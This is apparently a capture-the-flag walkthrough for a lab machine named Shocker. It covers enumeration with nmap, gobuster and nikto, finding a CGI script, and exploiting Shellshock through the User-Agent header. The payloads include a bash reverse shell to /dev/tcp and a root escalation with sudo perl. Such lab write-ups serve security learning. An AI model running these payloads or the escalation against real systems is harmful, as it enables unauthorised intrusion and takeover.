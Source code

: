 # Solution

Start with the usual nmap enumeration
```
>nmap -sC -sV -Pn -oN nmap-initial 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The website just returns an image. We use exiftool to see whether it carries some interesting metadata but nothing.  
We run gobuster
```
gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 25 -o gobuster.out
```
It didn't produce interesting results.  

We run nikto
```
nikto -host 10.10.10.56 -output nikto.txt
```
We have a line that may be interesting
```
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD
```
The OPTIONS method may give us some usefull debug informations.  
We send an OPTIONS request using burp but we don't get any new info, just the allowed methods (that we already know) and the apache version.  

No luck so far. We try to analyse whether apache is vulnerable somehow.  
We don't find any specific vulnerabilities on exploit DB. However the name of the machine is Shocker, so, what about a shellshoke?  
We use the nmap http-shellshock script to scan for the vulnerability
```
>nmap -sV -p80 --script http-shellshock -oN nmap-shellshock 10.10.10.56
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
```
The script does not find any shellshock vulnerabilities. We take a closer look at the script on the NMAP web page and see find the following sentence: "To detect this vulnerability the script executes a command that prints a random string and then attempts to find it inside the response body. Web apps that don't print back information won't be detected with this method. "  
It may be possible that the webserver doesn't print the result of the remote code execution on the response. We can try a blind injection and see if the shellshock actually takes place.  
We intercept the HTTP request to the webserver and we play with the headers.  
The attack vector used is 
```
() { :;}; ping -c 2 10.10.14.25
```
We try it as user agent and referer first, but no luck. We also try with other header fields but nope.  
We are quite sure the vulnerability is not in SSH because you'd need to authenticate for a shellshock attack to it.  
We restart with enumeration, hoping to find something new.  
We run gobuster again with a bigger dictionary
```
gobuster dir -u http://10.10.10.56 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 25 -o gobuster_ext.out
```
No results save for the ones we already have.

We run niko with the shellshocke plugin
```
nikto --host 10.10.10.56 -Plugins shellshock -o nikto-shellshock.txt
```
Nothing found. I suppose the script works the same as the nmap one.

We fired up as much gobuster instances as possible. I try to to fuzz with different extensions: php,txt,html,sh,bash,cgi.  
To look at status codes. It  may be possible that gobuster does not log the result we want because it has a different status code than the default ones. Therefore I use gobuster with the negative status code flag (-b 404). In this way it prints every resource it finds with status code different than 404.  

There is something that we're missing so far: 
By looking at  shellshock in Internet, we can see that a recurrent directory is /cgi-bin/. Even if this directory is listed in the dictionary file we used, we try to enter it manually (Yes, I was desperate at this point, couldn't find my way in :(  ). It magically worked.  
Why did gobuster haven't found it? Because it tried /cgi-bin which returns a 404 and not /cgi-bin/ which returns a 403. The -f flag in gobuster would have found the directory in a couple of seconds.  

Now we have a new road to follow and it seems very promising.  
We can now scan inside the directory for the specific file extensions we expect to see.
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30 -x cgi,sh,bash,pl   -o gobuster_file.out
```
We find /user.sh. By browsing /cgi-bin/user.sh we receive:
```
Content-Type: text/plain

Just an uptime test script

 06:58:54 up 8 min,  0 users,  load average: 0.06, 0.08, 0.07
```

Always keeping in mind the title of the machine, we try a shellshock attack on this. We inject our vector in the User Agent field:
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo ciao
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

As a result we receive an Internal Server Error thus confirming our initial idea. We can now verify by pinging our local machine. We use the (potential) absolute path of ping.  
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; /bin/ping -c 2 10.10.14.25
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
We reveice the ping:
```
13:11:43.927461 IP 10.10.10.56 > 10.10.14.25: ICMP echo request, id 1563, seq 1, length 64
13:11:43.927510 IP 10.10.14.25 > 10.10.10.56: ICMP echo reply, id 1563, seq 1, length 64
13:11:44.929017 IP 10.10.10.56 > 10.10.14.25: ICMP echo request, id 1563, seq 2, length 64
13:11:44.929063 IP 10.10.14.25 > 10.10.10.56: ICMP echo reply, id 1563, seq 2, length 64
```

This is the final confirmation that the web server is vulnerable to shellshock. We can modify the vector to spawn a reverse shell.  
First we set up a netcat listener (nc -nlvp 4444). Then we can deliver our new request carrying the TCP reverse shell command:
```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.25/4444 0>&1
```

We have a shell under the user shelly. We now want to escalate our privileges.  
This is pretty easy:
```
>>>>shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
It means that shelly can run perl with no password as root.  
We can escalate privileges by running an interactive shell with perl as root.
```
>>>> shelly@Shocker:/usr/lib/cgi-bin$ sudo -u root perl -e 'exec "/bin/sh";'       
sudo -u root perl -e 'exec "/bin/sh";'
>>>> whoami
root
```


MORAL OF THE STORY: My enumeration was shitty and I spend hours trying to exploit a non-existing shellshock vulnerability on a html file...
